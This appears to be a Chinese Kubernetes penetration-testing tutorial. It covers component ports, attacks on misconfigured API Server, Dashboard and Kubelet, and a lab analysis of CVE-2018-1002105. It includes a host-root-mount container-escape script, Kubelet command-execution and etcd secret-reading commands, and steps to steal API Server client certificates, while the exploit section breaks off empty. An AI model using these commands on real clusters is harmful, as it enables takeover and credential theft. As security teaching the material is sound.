

# [](#k8s-%E5%AE%89%E5%85%A8)K8s 安全

## [](#1-%E8%83%8C%E6%99%AF)1 背景

> Kubernetes，简称为 K8s，是一个开源的容器化应用自动部署、伸缩和管理平台，已经成为容器编排的事实标准。

### [](#11-kubernetes)1.1 Kubernetes

一个 Kubernetes 集群包含若干台服务器。其中，用于运行容器化应用的服务器被称为工作节点（worker node）；

用于运行控制平面（control plane）组件的服务器被称为控制节点或主节点（master node）。

在计算资源充足的情况下，工作节点和控制节点并不重合，控制平面组件只运行在控制节点上，业务容器运行在工作节点上，以满足高可用的需求。然而，为了达到充分利用服务器资源的目的（或单节点集群的情况），有时也会允许控制节点上运行业务容器。


其中，Master Node 中包含：

-   `API Server`

这是 Kubernetes 控制面板中唯一带有用户可访问 API 以及用户可交互的组件。API 服务器会暴露一个 RESTful 的 Kubernetes API 并使用 JSON 格式的清单文件(manifest files)。

-   `etcd`

这是一个强大的、稳定的、高可用的键值存储，被 Kubernetes 用于长久储存所有的 API 对象。

-   `Controller Manager`

被称为“kube-controller manager”，它运行着所有处理集群日常任务的控制器。包括了节点控制器、副本控制器、端点(endpoint)控制器以及服务账户等。

-   `Scheduler`

调度器会监控新建的 pods(一组或一个容器)并将其分配给节点。

在 Worker Node 中包含：

-   `Kubelet`

负责调度到对应节点的 Pod 的生命周期管理，执行任务并将 Pod 状态报告给主节点的渠道，通过容器运行时(拉取镜像、启动和停止容器等)来运行这些容器。它还会定期执行被请求的容器的健康探测程序。

-   `kube-proxy`

它负责节点的网络，在主机上维护网络规则并执行连接转发。它还负责对正在服务 的 pods 进行负载平衡。

在绿盟的[针对容器的渗透测试方法](https://mp.weixin.qq.com/s?subscene=19&__biz=MzIyODYzNTU2OA==&mid=2247487590&idx=1&sn=060a8bdf2ddfaff6ceae5cb931cb27ab&chksm=e84fb6b9df383faf1723040a0d6f0300c9517db902ef0010e230d8e802b1dfe9d8b95e6aabbd)一文中指出一些渗透测试思路和方法。结合一般的渗透过程，梳理出一个针对 Kubernetes 的渗透测试流程：


Kubernetes 控制平面组件通常运行在控制节点上；另外，对容器逃逸后通常能够获得容器所在宿主机上的 root 权限。将这两点结合起来我们会发现，如果前期进行 Web 渗透的目标容器位于控制节点上，且成功从容器中逃逸，那么我们实际上能够凭借控制节点上的 Kubernetes 管理员凭证（kubeconfig）与 Kubernetes API Server 进行交互（甚至可以直接使用控制节点上的 kubectl 命令行工具）。

### [](#12-%E7%BB%84%E4%BB%B6%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E7%9A%84%E9%A3%8E%E9%99%A9)1.2 组件接口存在的风险

k8s 中的大多数组件以 HTTP 和 HTTPS 的 API 形式提供服务，常见端口如下：

| 组件  | 默认端口 | 说明  |
| --- | --- | --- |
| API Server | 6443 | 基于 HTTP 的安全端口 |
| API Server | 8080 | 不安全的 HTTP 端口 |
| Kubelet | 10248 | 检查健康状态的端口 |
| Kubelet | 10250 | 面向 API Server 提供服务的 HTTPS 端口 |
| Dashboard | 8001 | 提供 HTTP 服务的端口 |
| etcd | 2379 | 客户端与服务端之间通信的端口 |
| etcd | 2380 | 不同服务端之间通信的端口 |

#### [](#121-api-server)1.2.1 API Server

默认情况下，`API Server` 在 `8080` 和 `6443` 两个端口上提供服务。

其中，8080 端口提供的是没有 TLS 加密的 HTTP 服务，且所有到达该端口的请求将绕过所有认证和授权模块（但是仍然会被准入控制模块处理）。保留该端口主要是为了方便测试以及集群初启动。

然而在生产环境开放 8080 端口，即使绑定本地环回地址也是很危险的。如果将该端口暴露在互联网上，那么任何网络可达的攻击者都能够通过该端口直接与 `API Server` 交互，继而控制整个集群。

相比之下，6443 端口提供的是使用 TLS 加密的 HTTPS 服务，到达的请求必须通过认证和授权机制才能够被成功处理。在认证和授权机制配置正确的情况下，6443 端口提供的服务安全性会更高。

#### [](#122-dashboard)1.2.2 Dashboard

在按照[官方文档](https://github.com/kubernetes/dashboard#install)所给方式部署完成 Dashboard 后，默认情况下，我们需要先执行 `kube proxy`，然后才能通过本地 8001 端口访问 Dashboard。但是，如果直接将 Dashboard 端口映射在宿主机节点上，或者在执行 `kube proxy` 指定了额外的地址参数，那么所有能够访到宿主机的用户，都能够直接访问 Dashboard。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br># 存在风险的配置方式<br>kube proxy --address 0.0.0.0 --accept-host='^*$'<br>``` |

另外，默认情况下 Dashboard 需要登录认证，但是，如果用户在 Dashboard 的启动参数中添加了 `--enable-skip-login` 选项，那么攻击者就能够直接点击 Dashboard 界面的“跳过”，按钮，无须登录便可直接进入 Dashboard。

#### [](#123-kubelet)1.2.3 Kubelet

API Server 是整个 Kubernetes 的中枢，以 RESTful API 的形式对外提供了大量应用接口。

事实上，Kubelet 也提供了 RESTful API 服务，供 API Server 调用以获取或改变某个 Kubernetes 节点上的资源状态。然而，这些 API 的设计意图并非是对外服务，因此官方并没有给出 Kubelet 的 API 文档。

默认配置下，Kubelet 在 10250 端口开放上述 API 服务，另外还监听 10248 端口，以供 其它组件检查 Kubelet 的运行状态：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>curl http://localhost:10248/healthz<br>``` |

10248 端口的服务相对简单，不存在特别的风险。但10250 端口却存在一定风险。默认情况下 API Server 在访问 Kubelet 的API 时需要使用客户端证书，相对来说是比较安全的。但是如果出现以下任一情况：

-   攻击者通过某种方式获取了 API Server 访问 Kubelet 的客户端证书。
-   用户为了方便起见，将 Kubelet 的 `--anonymous-auth` 参数设置为 `true`， 且 `authorization.mode` 设置为 `AlwaysAllow`。

则网络可达的攻击者都能够直接与 Kubelet 进行交互，从而实现对其所在节点的控制。

#### [](#124-etcd)1.2.4 etcd

Kubernetes 集群内的各种资源及其状态均存储在 etcd 中。如果能够有办法读取 etcd 中的数据，就可能获取高权限，从而控制集群。

目前，etcd 启动后监听 2379 和 2380 两个端口，前者用于客户端连接，后者用于多个 etcd 实例之间的端对端通信。在多节点集群中，为了实现高可用，etcd 往往在节点 IP 上进行监听，已实现多节点的互通。

默认情况下，两个端口提供的服务都需要相应证书才能访问，并禁止匿名访问，来保证安全性。如果攻击者获取了证书，或者允许匿名访问，就可以直接获取 ectd 内的数据。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>etcdctl --endpoints https://localhost:2379 --cert /etc/kubernetes/pki/etcd/server.crt --key /etc/kubernetes/pki/etcd/server.key --cacert /etc/kubernetes/pki/etcd/ca.crt get /registry/serviceaccounts/kube-system/default -o json<br>``` |

## [](#2-k8s-%E7%BB%84%E4%BB%B6%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E7%9A%84%E6%94%BB%E5%87%BB%E6%A1%88%E4%BE%8B)2 k8s 组件配置不当的攻击案例

### [](#21-api-server-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)2.1 API Server 未授权访问

默认情况下，API Server 能够在两个端口上对外提供服务：`8080` 和 `6443`，前者以 HTTP 提供服务，无认证和授权机制；后者以 HTTPS 提供服务，支持认证和授权服务。在较新版本的 Kubernetes 中，`8080` 端口的 HTTP 服务默认不启动。然而，如果用户在 `/etc/kubernets/manifests/kube-apiserver.yaml` 中将 `--insecure-port=0` 修改为 `--insecure-port=8080` ，并重启 API Server，那么攻击者只要网络可达，都能够通过此端口操控集群。

如远程列出目标机器上运行的 pod：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl -s $TARGETIP:8080 get pod<br>``` |

进一步创建挂载宿主机目录的 Pod 进行容器逃逸，获得宿主机权限，相关操作如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>``` | ```bash<br>#!/bin/bash<br><br>cat << EOF > escape.yaml<br># attacker.yaml<br>apiVersion: v1<br>kind: Pod<br>metadata:<br>  name: attacker<br>spec:<br>  containers:<br>  - name: ubuntu<br>    image: ubuntu:latest<br>    imagePullPolicy: IfNotPresent<br>    # Just spin & wait forever<br>    command: [ "/bin/bash", "-c", "--" ]<br>    args: [ "while true; do sleep 30; done;" ]<br>    volumeMounts:<br>    - name: escape-host<br>      mountPath: /host-escape-door<br>  volumes:<br>    - name: escape-host<br>      hostPath:<br>        path: /<br>EOF<br><br>kubectl -s TARGET-IP:8080 apply -f escape.yaml<br>sleep 8<br>kubectl -s TARGET-IP:8080 exec -it attacker /bin/bash<br>``` |

### [](#22-dashboard-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)2.2 Dashboard 未授权访问

Kubernetes Dashboard 是一个基于 Web 的 Kubernetes 用户界面。借助 Dashboard，能够获得当前集群中应用运行状态的概览，创建或修改 Kubernetes 资源。

根据[官方文档](https://github.com/kubernetes/dashboard#install)，可以使用以下命令部署 Dashboard:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl apply -f https://raw.githubusercontent.com/kubernetes/dashboard/v2.4.0/aio/deploy/recommended.yaml<br>``` |

Dashboard 需要配置 token 才能够访问，但是提供了「跳过」选项。从 1.10.1 版本起，Dashboard 默认禁用了「跳过」按钮。然而，如果用户在运行 Dashboard 时添加了 `--enable-skip-login`，那么攻击者只要网络可达，就能进入 Dashboard：


使用上面的 `recommended.yaml` 创建 Dashboard 是可靠的。即使攻击者“跳过”认证直接登录，也几乎没有办法操作。


### [](#23-kubelet-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE)2.3 Kubelet 未授权访问

在一个 Kubernetes 集群中，Kubelet 是主要的节点代理，运行在集群的每个节点上。它负责向 API Server 注册所在节点。

Kubelet 的配置文件是 `/var/lib/kubelet/config.yaml`。一般来说，我们在安装 Kubernetes 时会将 `--anonymous-auth` 设置为 `false`，并在 `authorization` 中选择 `mode` 为 `Webhook`。前一选项禁止匿名用户访问，后一选项则使 Kubelet 通过 API Server 进行授权（即使匿名用户能够访间，也几乎不具备任何权限)。

但是，一旦 `--anonymous-auth` 被设置为 `true`, 且 `authorization.mode` 被设置为 `AlwaysAllow` 这就非常危险了。


更改 config 文件后，重启 Kubelet：`systemctl restart kubelet`。


执行 `curl -k -XPOST "https://nodeip:10250/run/%namespace%/%pod_name%/%container_name%" -d "cmd=ls -la /"` 可以在对应容器里执行命令。

现在问题变成了如何确定 namespace、pod\_name、container\_name。访问 `https://nodeip:10250/pods` 。在 `metadata.namespace` 下的值为 `namespace`, `metadata.name` 下的值为 `pod_name`，`spec.containers` 下的 `name` 值为 `container_name`。

执行命令：


获取 Token：


通过 Token 获取 API Server 权限：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>kubectl --insecure-skip-tls-verify=true --server="https://ip:6443" --token="eyJhbG......" get secrets --all-namespaces<br>``` |

## [](#3-k8s-%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87%E6%BC%8F%E6%B4%9E---cve-2018-1002105)3 k8s 权限提升漏洞 - CVE-2018-1002105

> CVE-2018-1002105 是一个 Kubernetes 的权限提升漏洞，允许攻击者在拥有集群内低权限的情况下提升权限至 Kubernetes API Server 权限，CVSS 3.x 评分为 9.8。

影响版本：

-   Kubernetes v1.0.x-1.9.x
-   Kubernetes v1.10.0-1.10.10 (fixed in v1.10.11)
-   Kubernetes v1.11.0-1.11.4 (fixed in v1.11.5)
-   Kubernetes v1.12.0-1.12.2 (fixed in v1.12.3)

简单来说，通过构造一个特殊的请求，攻击者能够借助 Kubernetes API Server 作为代理，建立一个到后端服务器的连接，进而以 Kubernetes API Server 的身份向后端服务器发送任意请求，实质上就是权限提升。

在多数环境下，为了成功利用漏洞，攻击者本身需要具备一定的权限，如对集群内一个 Pod 的 exec、attach 权限。然而，在集群中存在其他扩展 API Server (如 metrics-server)的情况下，只要允许匿名访问集群，攻击者就可能以置名用户的身份完成漏洞利用。

### [](#31-%E8%83%8C%E6%99%AF)3.1 背景

#### [](#311-%E5%9F%BA%E4%BA%8E%E8%A7%92%E8%89%B2%E7%9A%84%E8%AE%BF%E9%97%AE%E6%8E%A7%E5%88%B6---rbac)3.1.1 基于角色的访问控制 - RBAC

Role-Based Access Control(RBAC) 是为不同用户赋予不同的角色，通过角色授权进行访问控制。要启用 RBAC，在启动 [API Server](https://kubernetes.io/zh/docs/reference/command-line-tools-reference/kube-apiserver/) 时设置 `--authorization-mode` 参数。

Kubernetes 提供了四种 RBAC 对象：Role、ClusterRole、Role Binding 和 ClusterRoleBinding。

其中，Role 和 ClusterRole 代表一系列权限的集合，一个 Role 资源通常是特定命名空间内某些权限的集合，ClusterRole 则是无命名空间限制的资源。

以[官方文档](https://kubernetes.io/zh/docs/reference/access-authn-authz/rbac/)中的例子，下面是一个 Role 的声明文件，它在默认的命名空间创建了一个名为 `pod-reader` 的角色，这角色的权限是能够对命名空间内部的 Pod 进行查看、事件监听和列举操作。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```yaml<br>apiVersion: rbac.authorization.k8s.io/v1<br>kind: Role<br>metadata:<br>  namespace: default<br>  name: pod-reader<br>rules:<br>- apiGroups: [""] # "" 标明 core API 组<br>  resources: ["pods"]<br>  verbs: ["get", "watch", "list"]<br>``` |

`RoleBinding` 和 `ClusterRoleBinding` 则用来将 `Role` 和 `ClusterRole` 定义的权限赋予一个或一组特定的用户。

下面的例子中的 `RoleBinding` 将 `pod-reader` Role 授予在 `default` 命名空间中的用户 `jane`。 这样，用户 jane 就具有了读取 `default` 命名空间中 pods 的权限。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```yaml<br>apiVersion: rbac.authorization.k8s.io/v1<br># 此角色绑定允许 "jane" 读取 "default" 名字空间中的 Pods<br>kind: RoleBinding<br>metadata:<br>  name: read-pods<br>  namespace: default<br>subjects:<br># 你可以指定不止一个“subject（主体）”<br>- kind: User<br>  name: jane # "name" 是区分大小写的<br>  apiGroup: rbac.authorization.k8s.io<br>roleRef:<br>  # "roleRef" 指定与某 Role 或 ClusterRole 的绑定关系<br>  kind: Role # 此字段必须是 Role 或 ClusterRole<br>  name: pod-reader     # 此字段必须与你要绑定的 Role 或 ClusterRole 的名称匹配<br>  apiGroup: rbac.authorization.k8s.io<br>``` |

#### [](#312-websocket)3.1.2 WebSocket

[WebSocket](https://zh.wikipedia.org/wiki/WebSocket) 是一种网络传输协议，可在单个 TCP 连接上进行全双工通信，使得客户端和服务器之间的数据交换变得更加简单，允许服务端主动向客户端推送数据。在 WebSocket API中，浏览器和服务器只需要完成一次握手，两者之间就可以创建持久性的连接，并进行双向数据传输。

一个典型的 Websocket 握手请求如下：

客户端请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>GET /chat HTTP/1.1<br>Host: server.example.com<br>Upgrade: websocket<br>Connection: Upgrade<br>Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==<br>Origin: http://example.com<br>Sec-WebSocket-Protocol: chat, superchat<br>Sec-WebSocket-Version: 13<br>``` |

服务器回应：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```http<br>HTTP/1.1 101 Switching Protocols<br>Upgrade: websocket<br>Connection: Upgrade<br>Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=<br>Sec-WebSocket-Protocol: chat<br>``` |

#### [](#313-kubernetes-api-server)3.1.3 Kubernetes API Server

API Server 通过 RESTful API 提供服务。除此之外，它还具有代理转发的功能，将外界对于部分 API的调用转发到后端实际执行这些 API 功能的组件上。例如，常用的对 pod 执行 exec 的操作就是 API Server 作为代理，将请求转发到对应节点的 Kubelet 上，由该 Kubelet 执行具体命令。这个过程还涉及从 HTTP 到 Websocket 的协议升级过程，API Server 能够作为代理维护一条 WebSocket 连接。

### [](#32-%E5%88%86%E6%9E%90)3.2 分析

漏洞在 `staging/src/k8s.io/apimachinery/pkg/util/proxy/upgradeaware.go` 中。`upgradeaware` 主要处理 API Server 的代理逻辑。其中 ServerHTTP 函数用来处理代理请求。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```go<br>// staging/src/k8s.io/apimachinery/pkg/util/proxy/upgradeaware.go <br>// ServeHTTP handles the proxy request<br>func (h *UpgradeAwareHandler) ServeHTTP(w http.ResponseWriter, req *http.Request) {<br>	if h.tryUpgrade(w, req) {<br>		return<br>	}<br>	if h.UpgradeRequired {<br>		h.Responder.Error(w, req, errors.NewBadRequest("Upgrade request required"))<br>		return<br>	}<br>  ...<br>	}<br>}<br>``` |

它在最开始调用了 `tryUpgrade` 函数，尝试进行协议升级。漏洞正存在于该函数的处理逻辑之中，跟进该函数。

首先，该函数要判断原始请求是否为协议升级请求（请求头中是否包含 Connection 和 Upgrade 项）：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```go<br>// tryUpgrade returns true if the request was handled.<br>if !httpstream.IsUpgradeRequest(req) {<br>	glog.V(6).Infof("Request was not an upgrade")<br>	return false<br>}<br>``` |

接着，它建立了到后端服务的连接：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```go<br>if h.InterceptRedirects {<br>	glog.V(6).Infof("Connecting to backend proxy (intercepting redirects) %s\n  Headers: %v", &location, clone.Header)<br>	backendConn, rawResponse, err = utilnet.ConnectWithRedirects(req.Method, &location, clone.Header, req.Body, utilnet.DialerFunc(h.DialForUpgrade), h.RequireSameHostRedirects)<br>} else {<br>	glog.V(6).Infof("Connecting to backend proxy (direct dial) %s\n  Headers: %v", &location, clone.Header)<br>	clone.URL = &location<br>	backendConn, err = h.DialForUpgrade(clone)<br>}<br>if err != nil {<br>	glog.V(6).Infof("Proxy connection error: %v", err)<br>	h.Responder.Error(w, req, err)<br>	return true<br>}<br>defer backendConn.Close()<br>``` |

然后，`tryUpgrade` 函数进行了 HTTP Hijack 操作，简单来说，就是不再将 HTTP 连接处理委托给 Go 语言内置的处理流程，程序自身在 TCP 连接基础上进行 HTTP 交互，这是从 HTTP 升级到 WebSocket 的关键步骤之一：


随后，tryUpgrade 将后端针对上一次请求的响应返回给客户端：



函数的最后，客户端到后端服务的代理通道被建立起来。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```go<br>// Proxy the connection.<br>writerComplete := make(chan struct{})<br>readerComplete := make(chan struct{})<br>go func() {<br>  ...<br>}()<br>go func() {<br>  ...<br>}()<br>// Wait for one half the connection to exit. Once it does the defer will<br>// clean up the other half of the connection.<br>select {<br>	case <-writerComplete:<br>	case <-readerComplete:<br>}<br>glog.V(6).Infof("Disconnecting from backend proxy %s\n  Headers: %v", &location, clone.Header)<br>return true<br>``` |

这是 API Server 视角下建立代理的流程。那么，在这个过程中，后端服务又是如何参与的呢？

以 Kubelet 为例，当用户对某个 Pod 执行 exec 操作时，该请求经过上面 API Server 的代理，发给 Kubelet。 Kubelet 在初始化时会启动一个自己的 API Server（为便于区分，后文所有单独出现的 API Server 均指的是 Kubernetes API Server，用 Kubelet API Server 指代 Kubelet 内部的 API Server)。

Kubelet 启动时会注册一系列 API，`/exec` 就在其中（由 `installDebuggingHandlers` 函数注册），注朋的对应处理函数为：

具体代码如下：`pkg/kubelet/server/server.go`


当客户端发起一个对 Pod 执行 exec 操作的请求时，经过 API Server 的代理、Kubelet 的转发，最终客户端与 Pod 间建立起了连接。

问题可能出现在如下地方：

1.  如果请求本身不具有相应 Pod 的操作权限，它在 API Server 环节就会被拦截下来，不会到达 Kubelet，这个处理没有问题。
2.  如果请求本身具有相应 Pod 的操作权限，且请求符合 API 要求（URL 正确、参数齐全等)，API Server 建立起代理，Kubelet 将流量转发到 Pod 上，一条客户端到指定 Pod 的命令执行连接被建立，这也没有问题，因为客户端本身具有相应 Pod 的操作权限。
3.  如果请求本身具有相应 Pod 的操作权限，但是发出的请求并不符合 API 要求（如参数指定错误等)，API Server 同样会建立起代理，将请求转发给 Kubelet，这种情况下会发生什么呢？

上面代码的 694 行，在 Kubelet 的 `/exec` 处理函数 `getExec` 中，一个 Options 实例被创建，跟进 `NewOptions` 函数：`pkg/kubelet/server/remotecommand/httpstream.go`


在第 61 行，如果请求中 `stdin`、`stdout` 和 `stderr` 三个参数都没有给出，Options 实例将创建失败，`getExec` 函数将直接返回给客户端一个 http.StatusBadRequest 信息：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```go<br>if err != nil {<br>		utilruntime.HandleError(err)<br>		response.WriteError(http.StatusBadRequest, err)<br>		return<br>}<br>``` |

回到上面的第三种情况。结合 `API Server` 中 `tryUpgrade` 代码可以发现，`API Server` 并没有对这种错误情况进行处理，依然通过两个 `Goroutine` 为客户端到 `Kubelet` 建立了 `Websocket` 连接。问题的核心在于，这个连接并没有对接到某个 `Pod` 上（因为前面 `getExec` 失败返回了），也没有被销毁，客户端可以继续通过这个连接向 Kubelet 下发指令。由于经过了 `API Server` 的代理，因此指令是以 `API Server` 的权限向 `Kubelet` 下发的。也就是说，客户端自此能够自由向该 `Kubelet` 下发指令而不受限制，从而实现了权限提升，这就是 `CVE-2018-1002105` 漏洞的成因。

### [](#33-%E5%A4%8D%E7%8E%B0)3.3 复现

#### [](#331-%E5%89%8D%E7%BD%AE%E6%9D%A1%E4%BB%B6)3.3.1 前置条件

正常请求执行的链路是 `client --> apiserver --> kubelet`

即 client 首先对 apiserver 发起请求，例如发送请求 \[连接某一个容器并执行 exec\] ，请求首先会被发到 apiserver，apiserver 收到请求后首先对该请求进行认证校验，如果此时使用的是匿名用户，api server 上是可以通过认证的，但会授权失败，即 client 只能走到 apiserver 而到不了 kubelet 就被返回 403 并断开连接了。

所以本次攻击的先决条件是，需要有一个可以从 client 到 apiserver 到 kubelet 整个链路通信认证通过的用户。

#### [](#332-%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA)3.3.2 漏洞环境搭建

利用 [metarget](https://github.com/Metarget/metarget) 安装漏洞环境：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./metarget cnv install cve-2018-1002105 --domestic<br>``` |

模拟攻击场景：集群中存在一个 vul 的命名空间，其中存在一个运行的业务 Pod。攻击者具有 vul 命名空间下 Pod 的 exec 权限，但是不具有其它高级权限。通过该漏洞进行提权。

-   创建 vul 命名空间

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```yaml<br># cve_2018_1002105_namespace.yaml<br>apiVersion: v1<br>kind: Namespace<br>metadata:<br>  name: vul<br>``` |

-   创建角色 test，并赋予权限

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>``` | ```yaml<br># cve_2018_1002105_role.yaml<br>apiVersion: rbac.authorization.k8s.io/v1<br>kind: Role<br>metadata:<br>  name: test<br>  namespace: vul<br>rules:<br>- apiGroups:<br>  - ""<br>  resources:<br>  - pods<br>  verbs:<br>  - get<br>  - list<br>  - delete<br>  - watch<br>- apiGroups:<br>  - ""<br>  resources:<br>  - pods/exec<br>  verbs:<br>  - create<br>  - get<br>``` |

-   创建用户 test，并与角色 test 绑定

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```yaml<br># cve_2018_1002105_role_binding.yaml<br>apiVersion: rbac.authorization.k8s.io/v1<br>kind: RoleBinding<br>metadata:<br>  name: test<br>  namespace: vul<br>roleRef:<br>  apiGroup: rbac.authorization.k8s.io<br>  kind: Role<br>  name: test<br>subjects:<br>- apiGroup: rbac.authorization.k8s.io<br>  kind: Group<br>  name: test<br>``` |

-   在命名空间 vul 内创建测试业务 Pod：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```yaml<br># cve_2018_1002105_pod.yaml<br>apiVersion: v1<br>kind: Pod<br>metadata:<br>  name: test<br>  namespace: vul<br>spec:<br>  containers:<br>  - name: ubuntu<br>    image: ubuntu:latest<br>    imagePullPolicy: IfNotPresent<br>    # Just spin & wait forever<br>    command: [ "/bin/bash", "-c", "--" ]<br>    args: [ "while true; do sleep 30; done;" ]<br>  serviceAccount: default<br>  serviceAccountName: default<br>``` |

-   test-csv，用户 test 的认证凭证。`Token, 用户名, UID, 用户组`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>password,test,test,test<br>``` |

分别应用上述 yaml：`kubectl apply -f xxx`

配置用户认证：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>cp test-csv.csv /etc/kubernetes/pki/test-role-token.csv<br>``` |

修改 API Server 配置文件 `/etc/kubernetes/manifests/kube-apiserver.yaml`


最后的结果：


检测是否部署成功：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>kubectl --token=password --server=https://129.226.12.58:6443 --insecure-skip-tls-verify exec -it test -n vul /bin/hostname<br><br>kubectl --token=password --server=https://129.226.12.58:6443 --insecure-skip-tls-verify get pods -n kube-system<br>``` |


#### [](#333-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)3.3.3 漏洞复现

目标：通过该漏洞，进行提权，创建一个挂载主机根目录的 Pod，实现容器逃逸。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```yaml<br># attacker.yaml<br>apiVersion: v1<br>kind: Pod<br>metadata:<br>  name: attacker<br>spec:<br>  containers:<br>  - name: ubuntu<br>    image: ubuntu:latest<br>    imagePullPolicy: IfNotPresent<br>    # Just spin & wait forever<br>    command: [ "/bin/bash", "-c", "--" ]<br>    args: [ "while true; do sleep 30; done;" ]<br>    volumeMounts:<br>    - name: escape-host<br>      mountPath: /host-escape-door<br>  volumes:<br>    - name: escape-host<br>      hostPath:<br>        path: /<br>``` |

思路：

1.  构造错误请求，建立经 Kubernetes API Server 代理到 Kubelet 的高权限 WebSocket 连接。
2.  利用高权限 Websocket 连接，向 Kubelet 发起 `/runningpods/` 请求，获得当前活动 Pod 列表。
3.  从活动 Pod 列表中找到 Kuberetes API Server 的 Pod 名称。
4.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 ca.crt”作为参数，从返回结果中保存窃取到的文件。
5.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 `apiserver-kubelet-client.crt` ”作为参数，从返回结果中保存窃取到的文件。
6.  利用高权限 WebSocket 连接，向 Kubelet 发起 `/exec` 请求，指定 Pod 为上一步中获得的 Pod 名称，携带“利用 cat 命令读取 apiserver-kubelet-client.key”作为参数，从返回结果中保存窃取到的文件
7.  使用 kubectl 命令行工具，指定访问凭证为第 4、5、6 步中窃取到的文件，创建挂载了宿主机根目录的 Pod，实现容器逃逸。

EXP 如下：

|     |     |     |
| --- | --- | --- |
